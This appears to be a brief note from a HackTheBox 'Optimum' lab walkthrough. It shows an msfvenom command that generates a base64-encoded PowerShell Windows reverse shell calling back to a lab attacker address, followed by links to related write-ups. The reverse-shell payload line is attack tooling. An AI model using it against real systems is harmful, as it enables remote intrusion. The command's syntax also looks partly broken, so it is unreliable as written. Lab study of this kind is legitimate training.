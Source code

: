 
root@Kali:~/HTB/Optimum# msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.65 LPORT=443 --format psh --smallest | msfvenom -a x86 --platform Windows -e powershell/base64 NOEXIT
##
https://ivanitlearning.wordpress.com/2020/08/01/hackthebox-optimum/
##
http://virgil-cj.blogspot.com/2018/02/escalation-time.html
